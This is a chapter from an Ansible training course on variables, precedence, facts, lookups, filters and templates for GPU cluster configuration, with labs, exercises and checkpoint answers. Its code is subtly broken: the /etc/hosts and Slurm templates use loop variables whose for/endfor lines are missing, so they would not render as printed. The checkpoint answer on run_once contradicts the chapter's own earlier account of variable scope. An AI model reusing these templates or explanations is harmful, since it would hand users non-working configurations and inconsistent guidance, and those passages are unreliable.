

# 4.7 Ansible variables, facts, templates and filters

| | |
|---|---|
| Level | Intermediate |
| Priority tier | 0 |
| Lab venue | ansible-core; 2 to 3 Linux targets; (a GPU host helps for the custom-fact examples) |
| Part | Part 4: Automation and infrastructure as code |
| Status | Drafted, labs **untested** |

## Why this matters for AI infrastructure

Suppose you have to configure a whole fleet with one playbook. Some nodes have 8 GPUs and others have 4. Some carry H100 cards and others carry A100s. The NICs differ too, with ConnectX-7 on some nodes and BlueField on others, and each rack uses its own management subnet. You could write a playbook for every machine type, but data is a better answer.

Three things make that work. Variables describe what you intend. Facts describe what each host actually is. Templates turn that data into Slurm, NCCL, chrony, netplan or Prometheus configuration. Knowing where a value comes from, and which one wins when two sources disagree, is what separates a playbook that is correct on 1,000 nodes from one that is only correct on your laptop.

## Prerequisites and outcomes

You need the material from 4.4 to 4.6 before you start. When you finish this chapter, you should be able to do the following.

- Define variables at the right layer, such as play, vars files, inventory, role defaults or extra vars. Read them safely with defaults, asserts and type conversion.
- Capture and use task results with `register`, `set_fact`, `include_vars` and `vars_prompt`. Explain how variable scoping and lifetime work.
- Use facts (`ansible_facts`), gather subsets, cache facts and write custom local facts (`facts.d`). Use the magic variables `hostvars`, `groups`, `group_names`, `inventory_hostname` and `play_hosts`.
- Use lookups such as `env`, `file`, `template`, `pipe`, `url`, `password`, `vault` and `community.hashi_vault.hashi_vault`, and know where each one runs.
- Write templates with loops and filters that generate real configurations, validate them, and debug variable and template problems quickly.

## 1. Defining variables

### Where and how

Suppose one group of GPU nodes must stay on driver branch 550, while a single special node needs something different. Ansible lets you set that value in several places, and the place you choose decides how far the value reaches. The simplest place is the play itself.

```yaml
- hosts: gpu
  vars:                              # play-level
    nvidia_driver_branch: 550
    nccl_env:
      debug: WARN
      ib_hca: "mlx5_0,mlx5_1"
  vars_files:
    - vars/common.yml
    - "vars/{{ ansible_facts['os_family'] | lower }}.yml"    # OS-specific variables chosen at runtime
  vars_prompt:                        # interactive; avoid in automation
    - name: reason
      prompt: "Maintenance reason"
      private: false
  tasks:
    - name: Use a variable
      ansible.builtin.debug:
        msg: "Driver branch {{ nvidia_driver_branch }}"
      vars:                           # task-level
        extra: 1
```

Play-level `vars` belong to the play where they are defined. `vars_files` loads its files from the list, and `vars_prompt` asks the user for a value at run time, which is why you should avoid it in automation. Notice that the `vars_files` path is itself a template. It can use a fact such as `ansible_facts['os_family']`.

The play is only one of several places a variable can come from. The same kind of value can be set in inventory variables and in `group_vars` or `host_vars` (4.5), and in role `defaults/` and `vars/` (4.11). On the command line, `-e` (or `--extra-vars`) accepts `key=value`, a JSON-style string such as `'{"k": [1,2]}'`, or `@file.yml`. Tasks can also create variables with `set_fact` and `register`. `include_vars` loads a file or directory into the host's variables while the run is in progress. Finally, `lookup` results and environment variables read with `lookup('env', ...)` can fill in values.

### Naming and types

A variable name can contain letters, digits and underscores, but it cannot start with a digit. Avoid Python keywords and the names Ansible reserves for itself, such as `environment`, `name`, `hosts`, `tasks`, `connection` and `port`. Variable names are not scoped by role, so start each name with the role or component that owns it, such as `slurm_` or `nvidia_`.

Types come from YAML, so a value can be a string, an int, a float, a boolean, a list or a dict. Quoting decides which one you get. In `nvidia_driver_branch: 550` the value is an int, but `"550.90.07"` must be quoted to stay a string. Quoting rules are covered in 4.4, and values such as `ansible_check_mode` and similar are booleans.

You read a value with `{{ nccl_env.debug }}`, `{{ nccl_env['ib_hca'] }}` or `{{ list[0] }}`. Use brackets when a key contains hyphens, spaces or dots, or when the key collides with a built-in Python dictionary method such as `items`, `keys`, `values`, `copy`, `get` or `update`. *Ansible: Up and Running* (chapter 5) points out the trap. If a dictionary has a key named `"values"`, writing `my_dict.values` returns Python's bound method `<built-in method values of dict object>` instead of the key's value. Subscript notation, `my_dict['values']`, always looks up the key.

The `stat` example in the same chapter (example 5-6) shows that four forms all work: `result['stat']['mode']`, `result['stat'].mode`, `result.stat['mode']` and `result.stat.mode`. You can also join strings inside one `{{ ... }}` expression with the tilde operator `~`, as in `msg: "{{ 'The URL is https://' ~ server_name ~ '/index.html' }}"`.

Give every optional value a default, or check it with an assertion. `{{ optional_var | default('x') }}` supplies a fallback, and `{{ must_exist | mandatory }}` stops the run when the value is missing. An `assert` at the top of a play or role, such as `that: [ rack is defined, gpu_count | int > 0 ]`, fails early and with a clear message. Roles should go further and validate their inputs with an argument spec in `meta/argument_specs.yml` (4.11).

Convert types with filters such as `| int`, `| float`, `| bool`, `| string` and `| list`. A boolean written as a string, such as `"yes"` or `"True"`, needs `| bool` before you test it. Never compare a boolean with a string.

### Scope and lifetime

Play and task `vars` are scoped to the place where they are defined. Inventory, group and host variables apply to each host for the whole run. `set_fact` and `register` create host-scoped variables that stay in place for the rest of the play run. With `cacheable: true` and fact caching enabled, they can also carry over into later runs.

`set_fact` has the precedence of a task-level fact, and registered variables behave in a similar way. Each one is set per host. A task with `run_once` sets the variable only on the host that ran it, unless you distribute it with `delegate_facts` or by iterating over `hostvars`. `include_vars` loads variables at runtime, and its precedence is above play vars. `vars_files` loads at the start of the play.

Role variables are not scoped by default, so a variable set in one role is visible to later roles and tasks. That is the reason for prefixes. Values are also rendered lazily. A variable defined in terms of another, such as `b: "{{ a }}-x"`, is templated at the point of use. That lets you define derived values in `group_vars` that reflect later overrides. The same laziness can create recursion, and `x: "{{ x }}"` produces an error.

Before you rely on a value, check the precedence order in 4.5, because the most surprising results come from layers you did not expect.

## 2. Registered results and set_fact

A later task often needs a value that an earlier command printed, such as the driver version. You capture that output with `register`, then clean it up with `set_fact`. The example below shows both steps.

```yaml
- name: Query driver version
  ansible.builtin.command: nvidia-smi --query-gpu=driver_version --format=csv,noheader
  register: drv
  changed_when: false

- name: Keep a clean value
  ansible.builtin.set_fact:
    current_driver: "{{ drv.stdout_lines[0] | trim }}"

- ansible.builtin.debug:
    var: drv                             # show the whole structure: rc, stdout, stdout_lines, stderr, changed, failed, start, end, delta, cmd
```

The `debug` task at the end prints the whole dictionary, including `rc`, `stdout`, `stdout_lines`, `stderr`, `changed`, `failed`, `start`, `end`, `delta` and `cmd`. A registered variable exists even when its task was skipped. In that case it carries `skipped: true`, so test it with `drv is not skipped` or `drv is defined and drv.rc == 0` before you use it. A task with `loop:` registers a `results` list, with one entry per item. Put your logic in `failed_when` and `changed_when` expressions instead of post-processing by hand.

Use `set_fact` to derive a value once and reuse it. It is not a way to write programming loops, so reach for filters instead. Mark an expensive computed fact `cacheable: true` if later runs will reuse it. Keep `set_fact` from becoming hidden global state that nobody can trace.

Keep the raw output in `register` and the cleaned value in `set_fact`, so each variable does one job.

## 3. Facts

Imagine you log in to a node that was reinstalled overnight. Before you run anything, you want its OS, kernel and memory. Facts answer those questions. Gathering them is not free, though, because fact gathering costs seconds per host.

Facts are variables that Ansible discovers about each host. The `setup` module returns hundreds of them when `gather_facts: true` is set. They cover the distribution, kernel, CPU count, memory, mounts, network interfaces and addresses, DMI info, environment, date and time, SELinux, user and Python.

```bash
ansible gpu001 -m ansible.builtin.setup | less
ansible gpu001 -m ansible.builtin.setup -a 'filter=ansible_default_ipv4'
ansible gpu001 -m ansible.builtin.setup -a 'gather_subset=!all,!min,network,hardware'
```

The first command prints every fact for one host and pipes it into `less`. The second narrows the output with `filter`. The third excludes `all` and `min`, then gathers the `network` and `hardware` subsets.

Once you have the facts, you can read them in a task. The example below builds one summary line from several of them. It divides the memory value in MB by 1024 to show GiB.

```yaml
- name: Show key facts
  ansible.builtin.debug:
    msg: >-
      {{ inventory_hostname }}: {{ ansible_facts['distribution'] }} {{ ansible_facts['distribution_version'] }},
      kernel {{ ansible_facts['kernel'] }}, {{ ansible_facts['processor_vcpus'] }} vCPUs,
      {{ (ansible_facts['memtotal_mb'] / 1024) | round(1) }} GiB RAM,
      primary IP {{ ansible_facts['default_ipv4']['address'] }}
```

The short injected names, such as `ansible_distribution`, are being de-emphasised. Prefer `ansible_facts['distribution']` instead. Reading from the `ansible_facts` dictionary keeps host data out of the variable namespace. The `inject_facts_as_vars` setting controls how the short names are created.

You can choose which facts to gather with `gather_subset`. Its values are `min`, `hardware`, `network`, `virtual` and `all`, and you negate one with `!`. `gather_timeout` and the `filter` option of `setup` also help. For a large fleet, set `gathering = smart` with a cache, using `fact_caching = jsonfile`, `redis` or `memcached`. You can also set `gather_facts: false` and call `setup` with a small subset only where you need it. The `package_facts`, `service_facts`, `mount_facts` and `ansible.builtin.getent` modules gather extra state on demand.

To branch on the distribution, use a condition such as `when: ansible_facts['os_family'] == 'Debian'`. For version checks, use `ansible_facts['distribution_major_version'] is version('9', '>=')`. Hardware needs a different approach. Do not rely on `setup` alone for GPU data. Probe the device with `nvidia-smi -L`, `lspci -d 10de:` or DCGM, and wrap those probes in a role. The role can publish facts such as `gpu_count`, `gpu_model`, `nvlink_present` and `ib_hcas`, so that later plays and templates can read them.

### Custom (local) facts

Hosts can describe themselves. Any `.fact` file, or any executable, placed in `/etc/ansible/facts.d/` on the target is picked up during fact gathering. The file can be INI or JSON, or the executable can print JSON. Its values then appear under `ansible_local.<name>`. This is the supported way for a host to declare its own attributes, such as its rack, role or hardware class. Those attributes stay with the host, so they do not depend on the control node.

The INI file below is a plain `.fact` file. The task after it writes an executable one, which prints a JSON count of the GPUs found by `nvidia-smi -L`.

```ini
# /etc/ansible/facts.d/site.fact
[location]
rack=r07
rail=3
```

```yaml
- name: Publish local fact
  ansible.builtin.copy:
    dest: /etc/ansible/facts.d/gpu.fact
    mode: "0755"
    content: |
      #!/bin/sh
      n=$(nvidia-smi -L 2>/dev/null | wc -l)
      echo "{\"count\": $n}"
- ansible.builtin.setup: { filter: ansible_local }
- ansible.builtin.debug: { msg: "{{ ansible_local.gpu.count }} GPUs on {{ inventory_hostname }}" }
```

### Magic variables

Ansible sets magic variables for you, so you never define them yourself. The table lists the common ones.

| Variable | Meaning |
|---|---|
| `inventory_hostname`, `inventory_hostname_short` | The host's name in inventory |
| `ansible_host`, `ansible_user`... | Connection variables |
| `groups` | Dict of group name to host list (`groups['gpu']`) |
| `group_names` | Groups the current host belongs to |
| `hostvars` | Dict of host to all of that host's variables and facts (`hostvars['slurmctl01']['ansible_default_ipv4']['address']`); only includes hosts whose facts were gathered earlier in the run for fact values |
| `play_hosts` / `ansible_play_hosts`, `ansible_play_batch` | Hosts in the current play / current serial batch |
| `ansible_play_name`, `ansible_check_mode`, `ansible_diff_mode`, `ansible_run_tags`, `ansible_limit` | Run metadata |
| `playbook_dir`, `role_path`, `inventory_dir` | Paths |
| `omit` | Special placeholder to drop a parameter |
| `ansible_version`, `ansible_python` | Controller details |

Cross-host data is where `hostvars` and `groups` earn their place. Suppose you need every node address in `/etc/hosts`, in a Slurm configuration, or in an HAProxy backend. *Ansible: Up and Running* (chapter 5) shows a load-balancer block built from ` server {{ host }} {{ hostvars[host].ansible_default_ipv4.address }}:80 `, and the same pattern is modelled in `code/part04/ansible_variables_facts.py`. Keep the two names apart. `hostvars` is a runtime dictionary, while `host_vars/` is a directory on disk.

Those address facts exist only if they were gathered for those hosts in this run, either by an earlier play with `gather_facts` or from a cache. A common bug shows up with `--limit`. If a play is limited to one host with `--limit lb01`, it can still template a cluster-wide file. The `hostvars` entries for `web1..3` or `gpu001..032` then come back empty or undefined, because those hosts were never gathered. Gather facts for the whole group first, with `- hosts: cluster / gather_facts: true / tasks: []` and `tags: [always]`, or cache them.



Before a limited run that templates across hosts, gather facts for the whole group.

## 4. Lookups

Say a task needs an SSH public key that lives on your laptop, not on the target. A lookup can read that file for you, but it reads from the control node. Lookups fetch data from outside the playbook, and they run on the control node at the moment the template is rendered. The table lists the common ones and what each is for.

| Lookup | Use |
|---|---|
| `env` | `lookup('env', 'HOME')`; control-node environment |
| `file` | Read a local file's content (e.g., an SSH public key) |
| `template` | Render a local template to a string |
| `pipe` | Run a local command, return stdout (use sparingly; side effects on every evaluation) |
| `url` | Fetch a URL on the control node |
| `password` | Generate/persist a random password in a local file; `lookup('password', 'creds/db chars=ascii_letters,digits length=24')` |
| `community.hashi_vault.hashi_vault` | Read secrets from Vault |
| `ansible.builtin.vars` / `varnames` | Look up variables by name |
| `ansible.builtin.dict`, `items`, `subelements`, `together`, `nested`/`product`, `cartesian` | Build loops over structures |
| `ansible.builtin.first_found` | Pick the first existing file from a list (OS-specific vars) |
| `ansible.builtin.ini`, `csvfile`, `community.general.dig` (DNS), `community.general.random_pet` | Misc data sources |

The `lookup()` call returns a string, joined with commas, by default. The `query()` call, also written `q()`, always returns a list, so prefer `query` when you feed the result into a loop. A lookup runs every time it is evaluated, so keep expensive lookups out of loops. Remember that lookups run where Ansible runs, not on the targets. For data from a target, use a module and `register` instead. The `with_<lookup>:` form is the older way of writing `loop:` together with a lookup.

## 5. Loops over data

You may need several service accounts, each with its own UID and groups. A loop handles that and keeps the task list short. The example shows the common patterns.

```yaml
- name: Create service accounts
  ansible.builtin.user:
    name: "{{ item.name }}"
    uid: "{{ item.uid }}"
    groups: "{{ item.groups | default([]) }}"
    shell: /bin/bash
  loop:
    - { name: slurm, uid: 990, groups: [] }
    - { name: munge, uid: 991 }
  loop_control:
    label: "{{ item.name }}"             # shorter output
    pause: 0
    index_var: idx

- name: Per-key iteration over a dict
  ansible.builtin.sysctl:
    name: "{{ item.key }}"
    value: "{{ item.value }}"
  loop: "{{ sysctl_settings | dict2items }}"

- name: Nested data
  ansible.builtin.debug:
    msg: "{{ item.0.name }} -> {{ item.1 }}"
  loop: "{{ users | subelements('keys') }}"
```

The first task loops over a list of dicts. Its `loop_control` shortens the output with `label`, sets `pause` to 0 and names the loop counter `idx`. The second loops over a dict, and `dict2items` gives each pair an `item.key` and `item.value`. The third uses `subelements` to flatten a nested list, so `item.0.name` is the user and `item.1` is one of that user's keys.

Prefer `loop` with filters such as `dict2items`, `subelements`, `product`, `zip`, `flatten` and `batch` over hand-written logic. Use `until` and `retries` for polling. If a module accepts a list, pass the whole list: `package: name: [a, b, c]` runs as one transaction, which is much faster than a loop of three calls.

## 6. Filters for configuration generation

Your template may need to merge two dictionaries, pick one address from each host and format the result. Filters let you do each step in a single expression. Ansible adds its own filters on top of the Jinja2 builtins covered in 4.4, and you will use the ones in this table often.

| Need | Filter |
|---|---|
| Dict merge (recursive) | `base \| combine(override, recursive=True)` |
| List ↔ dict | `dict2items`, `items2dict`, `zip`, `zip_longest`, `product`, `permutations` |
| Set operations | `union`, `intersect`, `difference`, `symmetric_difference`, `unique` |
| Flatten/shape | `flatten`, `community.general.json_query` (JMESPath queries) |
| Regex | `regex_search`, `regex_findall`, `regex_replace('^(.*)\\.example\\.com$', '\\1')` |
| Paths | `basename`, `dirname`, `splitext` |
| Version | `is version('2.0', '>=')`, `ansible.builtin.version` |
| Hash/crypt | `hash('sha256')`, `password_hash('sha512', salt)`, `b64encode` |
| Serialise | `to_json`, `to_nice_json`, `to_yaml`, `to_nice_yaml`, `from_json`, `from_yaml` |
| IP/network | `ansible.utils.ipaddr`, `ipsubnet`, `ipmath`, `next_nth_usable`, `ansible.utils.cidr_merge`, `hwaddr` (needs `netaddr`) |
| Defaulting | `default`, `default(omit)`, `mandatory`, `ternary('a','b')` |
| Misc | `random`, `shuffle`, `human_readable`, `human_to_bytes`, `quote`, `comment`, `expanduser` |

The examples below show how these filters combine. Each line is a Jinja2 expression, and its comment states what the result is.

```jinja
{{ gpu_nodes | map('extract', hostvars, 'ansible_host') | list }}            {# list of addresses #}
{{ groups['gpu'] | map('extract', hostvars, 'rack') | unique | sort }}        {# racks in use #}
{{ (ansible_facts['memtotal_mb'] * 0.9) | int }}                              {# Slurm RealMemory ~90% #}
{{ base_cfg | combine({'log_level': 'debug'}, recursive=True) }}
{{ '10.1.0.0/24' | ansible.utils.ipaddr('10') }}                              {# 10th address: 10.1.0.10/24 #}
{{ (item.size | human_to_bytes) // (1024**3) }}                               {# GiB #}
{{ is_prod | ternary('warn', 'debug') }}
```

The `extract` filter does the most work here, because it pulls one hostvar from many hosts at once.

## 7. Templates in practice

Suppose a new GPU node joins the cluster, and the Slurm configuration must list it. Editing that file by hand invites mistakes. A template renders the file from data every time, so the new node appears in the output automatically. The `ansible.builtin.template` module renders `.j2` files, reading them from the role's `templates/` directory or from any path you give.

```yaml
- name: Render slurm.conf
  ansible.builtin.template:
    src: slurm.conf.j2
    dest: /etc/slurm/slurm.conf
    owner: slurm
    group: slurm
    mode: "0644"
    backup: true                          # keep a timestamped copy when changed
    validate: "slurmd -f %s -C"           # example: validate before replacing (check the tool's actual option support)
  notify: Reload slurmctld
```

The `backup: true` option keeps a timestamped copy when the file changes. The `validate` option checks the rendered file before it replaces the live one. The `notify` line runs its handler only when the rendered file changed.

### Example 1: /etc/hosts for the cluster

Start with the simplest case. A loop over the cluster group writes one line for each host.

```jinja
# {{ ansible_managed }}
127.0.0.1 localhost

{{ hostvars[h]['ansible_host'] }} {{ h }}.{{ cluster_domain }} {{ h }}

```

Each line uses the host's `ansible_host` and its name, so the file follows the inventory.

### Example 2: Slurm node and GRES configuration derived from data

The Slurm example takes the same idea further. It reads each GPU node's CPU count, memory and GPU details from `hostvars`, and it falls back to defaults where a value is missing.

```jinja
# {{ ansible_managed }}
ClusterName={{ slurm_cluster_name }}
SlurmctldHost={{ groups['slurm_controller'][0] }}


NodeName={{ h }} NodeAddr={{ v.ansible_host }} CPUs={{ v.ansible_facts.processor_vcpus }} Boards=1 SocketsPerBoard={{ v.sockets | default(2) }} CoresPerSocket={{ v.cores_per_socket | default(48) }} ThreadsPerCore=1 RealMemory={{ (v.ansible_facts.memtotal_mb * 0.95) | int }} Gres=gpu:{{ v.gpu_model | default('h100') }}:{{ v.gpu_count | default(8) }} State=UNKNOWN

PartitionName=gpu Nodes={{ groups['gpu'] | sort | join(',') }} Default=YES MaxTime=INFINITE State=UP
```

The `RealMemory` value is 95 percent of each node's memory, because the template multiplies by `0.95`. For large clusters, compress the node list into Slurm's hostlist syntax, such as `gpu[001-032]`. You can do that with a custom filter or with a precomputed variable.

### Example 3: Prometheus file_sd targets

Prometheus reads targets from a `file_sd` JSON file. This template writes one for the GPU group.

```jinja
{# rendered to /etc/prometheus/targets/gpu.json on the monitoring host #}
{{ [{'targets': groups['gpu'] | map('extract', hostvars, 'ansible_host') | map('regex_replace', '$', ':9400') | list,
     'labels': {'job': 'dcgm', 'cluster': cluster_name}}] | to_nice_json }}
```

### Example 4: YAML output from data

Render complex YAML with `to_nice_yaml` instead of indenting it by hand, as in `{{ k8s_values | to_nice_yaml(indent=2) | indent(4) }}`. Then validate the result with `yamllint` or `kubeconform`.

### Good template practice

Keep the logic in the template simple. Precompute data with `set_fact` or filters first, and put long expressions in variables. Always render with `--check --diff` before you run for real. Add `validate:` when the file has a syntax checker, such as `nginx -t -c %s`, `visudo -cf %s` or `named-checkconf %s`.

Include `{{ ansible_managed }}` so that people know not to edit the generated file. Avoid volatile values, and sort lists and dict keys with `| sort` and `dictsort`. Sorting keeps every render deterministic, so handlers do not flap. Preserve ownership and modes. For secrets, use `0600`, `no_log: true` and `diff: false`. Keep a template test as well: render with fixtures in CI and compare the output to a golden file (3.9).

Sort every list the template reads, and render with `--check --diff` before you change the live file.

## 8. Variable precedence debugging toolkit

A variable on `gpu001` has a value you did not expect, and you need to find the layer that set it.

```bash
ansible-inventory -i inventories/prod --host gpu001 --yaml          # merged inventory-level vars
ansible gpu001 -i inventories/prod -m ansible.builtin.debug -a 'var=nvidia_driver_branch'
ansible-playbook site.yml -l gpu001 -e '' -vvv --tags never --list-tasks   # check what is loaded (with -vvv shows vars files)
grep -rn "nvidia_driver_branch" inventories roles playbooks            # find every definition
```

You can also debug from inside a play. `debug: var=vars['nvidia_driver_branch']` prints one value. `debug: msg="{{ hostvars[inventory_hostname] | dict2items | selectattr('key','match','^nvidia_') | list }}"` lists every host variable whose name starts with `nvidia_`. Remember the order summarised in 4.5. In practice, the most common surprises are a role's `vars/` overriding inventory, `-e` overriding everything, `set_fact` persisting into later plays, a dictionary being replaced instead of merged, and two sibling groups defining the same name.

When a value looks wrong, search the repository for its name.

## 9. Security of variables and templates

A registered result or a `debug` line can print a password without anyone intending it. Keep secrets out of the places where output is shown or stored.

Secrets belong in Vault-encrypted files, or in a secret manager that you query at runtime (4.12). Set `no_log: true` on any task that handles them. Registered results and `-vvv` output can leak secrets too, so keep both in mind. For rendered secret files, set `diff: false`.

`lookup('pipe')` and `shell` with interpolated variables are injection vectors. Quote those values with `| quote`.

Facts and registered output from targets are untrusted data, because a compromised host can return anything. Ansible marks some values as unsafe so that they are not re-templated. Do not strip that marking. A string from an untrusted user is dangerous to template, because that is template injection, and you should never remove `!unsafe` markings.

Quote any target-supplied value before it reaches `lookup('pipe')` or `shell`.

## 10. Lab

Start with a script that needs no servers at all. The self-checking Python lab runs on your own machine, and it confirms that the helper logic behaves as the chapter describes.

```bash
python3 code/part04/ansible_variables_facts_lab.py
```

The lab checks three things. It parses INI and JSON `/etc/ansible/facts.d/*.fact` files into `ansible_local`, using `parse_local_fact_file` as described in *Ansible: Up and Running*, chapter 5. It projects `groups` and `hostvars` across hosts with `project_group_hostvars` and `render_haproxy_backend_from_groups`, and it fails fast when a target's facts were not gathered. It also runs `dict2items` and `items2dict` transformations through `dict2items_and_items2dict_roundtrip`.

Next, work through the exercises below on a control node with 2–3 Linux targets. All interactive shell steps below are `untested here`.

1. Define one variable in several layers: role defaults, `group_vars/all`, `group_vars/gpu`, `host_vars`, play vars, `set_fact` and `-e`. Before each run, predict the winner, then run and record the winner at each stage. Finally, place a dict across two layers and merge it with `combine`.
2. Capture `nvidia-smi` output, or a fake script, with `register`. Branch on `rc`, `stdout` and `stdout_lines`. Show how a skipped registered task behaves, and how the `results` of a looped task look.
3. Dump the output of `setup`, and filter it by subset. Compare the run time with and without `gather_facts`, with `gather_subset=min`, and with a JSON file cache.
4. Deploy a `site.fact` file and a script fact. Read `ansible_local` in the next task, then show that the facts persist on the host.
5. Render a cluster-wide `/etc/hosts` with `hostvars` and `groups`. Reproduce the "facts not gathered" bug by limiting the play to one host. Then fix it with a gather play or a cache.
6. Use the `env` and `file` lookups, a `password` that persists between runs, and `first_found` for OS-specific variables. Compare what `lookup` and `query` return inside a loop, and how `hashi_vault` fits into the same picture.
7. Create users from a list of dicts, and generate sysctls from a dict. Try `subelements`, `product` and `batch`. Build a list of GPU node IPs with `map('extract', hostvars, ...)`.
8. Write the hosts, Slurm and Prometheus targets templates. Make the output deterministic, and use `validate:`. Show `--diff` and handler behaviour when only the ordering changes, then sort to fix it.
9. Reproduce a boolean-as-string bug and an unquoted `{{` YAML error. Fix them with `| bool` and with quoting.
10. Add an `assert`, and for a role, an `argument_specs.yml`. Check the failure message for a missing variable.
11. Ask a colleague, or yourself, to plant a conflicting variable in three layers. Find it with the toolkit in under five minutes.
12. Clean up when you finish.

## 11. Common mistakes

Most of the trouble in this chapter comes from a few habits, and you can spot them in your own playbooks. The first group below covers mistakes about defaults, facts and scope.

- Using variables without defaults or validation, so that missing values surface in the middle of a fleet run.
- Putting overridable settings in role `vars/`, or using `-e` as the normal way to configure a role.
- Treating `set_fact` as a global assignment, and forgetting its host scope and `run_once` behaviour.
- Writing cross-host templates that rely on `hostvars` facts that were never gathered.
- Gathering all facts everywhere on huge fleets, or disabling facts and then using `ansible_*` variables.

The second group is about formatting and types.

- Mixing the old injected names, such as `ansible_distribution`, with `ansible_facts[...]` in the same playbook.
- Producing non-deterministic template output, such as unsorted dicts, sets or timestamps, which restarts handlers for no reason.
- Keeping booleans as strings, or parsing version strings as floats.
- Writing complex Jinja inside YAML where a small module, filter plugin or precomputed variable would be clearer.
- Printing secrets in `debug` output, or in registered variables shown at `-v`.

Give every optional value a default, and gather facts before you template across hosts. If you do both, you will avoid most of the failures above.

## 12. Interview angles

You can test yourself on this chapter with the questions below. Each one touches an idea you will need to explain. Answer each question in your own words, then check the section that covers it.

- Where do you define variables, and what wins? Think through the precedence summary, role defaults, `group_vars`, `host_vars` and extra vars.
- What are facts? How do you speed up fact gathering, and how would you add custom facts?
- How do you generate per-node configuration, such as Slurm, `/etc/hosts` or Prometheus targets, from the inventory?
- What is `hostvars`, and when does it break?
- How do `register` and `set_fact` differ in scope and lifetime?

The last four questions cover lookups, merging, validation and secrets.

- How do `lookup` and `query` differ, and where do lookups run?
- How do you merge dictionaries from several layers? Consider `combine`.
- How do you validate a rendered configuration before it replaces the live one?
- How do you keep secrets out of logs and diffs?

## Exercises

Each exercise builds on a point from the sections above, so you can check how well you followed them. The first three draw on *Ansible: Up and Running*, chapter 5, and the code in `code/part04/`.

1. Start with variable naming, subscript `['key']` versus dot `.key` access, scope and lazy evaluation. State the rules for valid Ansible variable names. Then explain why subscript notation, `result['stat']['mode']`, is safer than dot notation, `result.stat.mode`, when a dictionary holds keys such as `values`, `items` or `copy`, or keys with hyphens or dots. Finally, contrast the scope and lifetime of task `vars:`, `vars_files:`, `include_vars`, `register` and `set_fact` (with `cacheable: true`).
2. Trace the structure that `register: drv` stores, including `rc`, `stdout`, `stdout_lines`, `stderr`, `changed` and `failed`. Do the same for `stat`, using `result.stat.exists`, `result.stat.isdir` and `result.stat.mode`. Then explain what happens to a registered variable when its task is skipped because of `when: false`, which you can check with `drv is skipped`. Explain how `register` behaves on a task with `loop:`.
3. Use `parse_local_fact_file()` in `code/part04/ansible_variables_facts.py`. Explain why `ansible_facts['distribution']` is preferred over the legacy `ansible_distribution` variables, and how `gather_subset` and `fact_caching = jsonfile` speed up large runs. Then explain how both the INI file `example.fact` and the executable JSON file `gpu.fact` in `/etc/ansible/facts.d/` populate `ansible_local`.
4. Explain the magic variables `hostvars`, `groups`, `group_names`, `inventory_hostname` and `ansible_play_batch`. Use `project_group_hostvars()` and `render_haproxy_backend_from_groups()` in `code/part04/ansible_variables_facts.py` to explain the difference between `hostvars` and `host_vars/`. Show how a template iterates `groups['web']` or `groups['gpu']` to render HAProxy, `/etc/hosts` or `slurm.conf`. Then explain how to fix the missing-facts bug when you run with `--limit`.
5. Use `dict2items_and_items2dict_roundtrip()` to explain where lookups execute. Explain how `lookup()` and `query()` (`q()`) differ, and how `env`, `file`, `password`, `first_found` and `hashi_vault` work. Then explain why `package: name: [a, b, c]` is faster than `loop: [a, b, c]`. Show how `loop_control: { label: "{{ item.name }}" }` keeps logs clean and prevents secret leaks, and how `dict2items` and `subelements` fit into loop control.
6. Write the filter pipeline that uses `extract`, `combine`, `json_query`, `ipaddr`, `to_nice_json` and `to_nice_yaml`. It should extract `ansible_host` across `groups['gpu']`, append `:9400`, and render a deterministic Prometheus `file_sd` JSON file. Explain how sorting with `| sort` and `dictsort` prevents spurious handler restarts.

## Checkpoint questions (20)

<details>
<summary>1. Why is subscript notation (`result['stat']['mode']` or `d['values']`) safer than dot notation (`d.values`) when accessing dictionaries in Ansible (*Ansible: Up and Running*, chapter 5)?</summary>

In Jinja2 and Ansible, dot notation (`d.key`) can match Python object attributes and methods as well as dictionary keys. If a key has the same name as a built-in `dict` method, such as **`values`**, **`items`**, **`keys`**, **`get`**, **`copy`** or **`update`**, you get the method instead of your data. Writing `d.values` returns `<built-in method values of dict object>`, not the value you stored. Keys with hyphens, dots or spaces, such as `eth0.100` or `ens3-1`, are also syntax errors under dot notation. Subscript notation, **`d['values']`**, always looks up the dictionary key without ambiguity.
</details>

<details>
<summary>2. What is the difference between `register` and `set_fact` in terms of purpose, structure, and persistence?</summary>

- **`register: var_name`** captures the **entire return dictionary** of a task, including `rc`, `stdout`, `stdout_lines`, `stderr`, `changed`, `failed` and `skipped`. With `loop:`, it holds a `results` list instead. If `when:` makes the task skip, `register` still binds `var_name` to `{"changed": false, "skipped": true}`.
- **`ansible.builtin.set_fact`** computes a clean, custom host-scoped variable, such as `current_driver: "{{ drv.stdout_lines[0] | trim }}"`. That value persists across all the remaining plays in the run. With **`cacheable: true`** and fact caching enabled in `ansible.cfg`, the computed fact is also written to the fact cache (`ansible_facts`) for future runs.
</details>

<details>
<summary>3. What Happens when `set_fact` or `register` is used on a task with `run_once: true`?</summary>

Both `set_fact` and `register` store their variables in the `hostvars` of the hosts that actually ran the task. With **`run_once: true`**, the task runs only on the first host in the batch, `ansible_play_batch[0]`. There is one convenience, though. A `set_fact` or `register` on a `run_once: true` task automatically copies its value to every host in the current play batch. The exception is when `delegate_to` and `delegate_facts: true` are combined, because then the fact goes solely to the delegated host.
</details>

<details>
<summary>4. Why should modern playbooks use `ansible_facts['distribution']` instead of the top-level variable `ansible_distribution`?</summary>

Older Ansible injected every gathered fact as a top-level `ansible_*` variable, such as `ansible_distribution`, `ansible_kernel` and `ansible_os_family`. That filled the global variable namespace. It also let a compromised remote host, returning custom facts, collide with connection and configuration variables. Reading facts from the **`ansible_facts` dictionary**, such as `ansible_facts['distribution']` or `ansible_facts['default_ipv4']['address']`, keeps all discovered host data namespaced. It also works when `inject_facts_as_vars = False` is set in `ansible.cfg`.
</details>

<details>
<summary>5. How do Custom Local Facts in `/etc/ansible/facts.d/*.fact` work (*Ansible: Up and Running*, chapter 5, example 5-10)?</summary>

During the `setup` step, Ansible looks in **`/etc/ansible/facts.d/`** on the target for any file that ends in **`.fact`**.
